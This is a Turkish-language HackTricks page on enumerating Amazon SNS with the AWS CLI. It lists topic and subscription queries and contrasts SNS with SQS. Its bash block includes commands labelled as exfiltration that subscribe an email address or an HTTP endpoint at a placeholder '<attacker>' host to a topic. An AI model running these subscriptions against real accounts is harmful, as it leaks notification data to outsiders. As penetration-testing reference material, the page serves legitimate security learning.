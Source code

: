 # AWS - SNS Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SNS

Amazon Basit Bildirim Servisi (Amazon SNS), **tamamen yönetilen bir mesajlaşma servisi** olarak tanımlanır. Hem **uygulama-uygulama** (A2A) hem de **uygulama-kisi** (A2P) iletişim türlerini destekler.

A2A iletişimi için ana özellikler **yayınla/abone ol (pub/sub) mekanizmaları** içerir. Bu mekanizmalar, yüksek verimli, **itme tabanlı, çoktan-çoğa mesajlaşmayı** sağlamak için kritik olan **konuları** tanıtır. Bu özellik, dağıtık sistemler, mikro hizmetler ve olay odaklı sunucusuz mimariler içeren senaryolar için son derece avantajlıdır. Bu konuları kullanarak, yayıncı sistemler mesajları **geniş bir abone sistemi yelpazesine** verimli bir şekilde dağıtabilir, böylece bir fanout mesajlaşma modeli oluşturur.

### **SQS ile Fark**

**SQS**, nokta-nokta iletişimi sağlayan **kuyruk tabanlı** bir hizmettir ve mesajların **tek bir tüketici** tarafından işlenmesini garanti eder. **En az bir kez teslimat** sunar, standart ve FIFO kuyrukları destekler ve mesajların yeniden denemeler ve gecikmeli işleme için saklanmasına izin verir.\
Diğer yandan, **SNS**, mesajları **birden fazla aboneye** aynı anda yayınlayarak **birden-çoğa** iletişimi sağlayan **yayınla/abone ol tabanlı bir hizmettir**. **E-posta, SMS, Lambda fonksiyonları ve HTTP/HTTPS** gibi çeşitli abonelik uç noktalarını destekler ve hedefli mesaj teslimatı için filtreleme mekanizmaları sunar.\
Her iki hizmet de dağıtık sistemlerde bileşenler arasında ayrıştırma sağlasa da, SQS kuyruklu iletişime odaklanırken, SNS olay odaklı, fan-out iletişim modellerini vurgular.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Not edin ki eğer **konu FIFO türündeyse**, yalnızca **SQS** protokolünü kullanan aboneler kullanılabilir (HTTP veya HTTPS kullanılamaz).

Ayrıca, `--topic-arn` bölgeyi içeriyor olsa bile, **`--region`** parametresinde doğru bölgeyi belirttiğinizden emin olun, aksi takdirde erişiminiz olmadığına dair bir hata alırsınız ama sorun bölgedir.
{% endhint %}

#### Kimlik Doğrulaması Olmayan Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Sömürü Sonrası

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Süreklilik

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

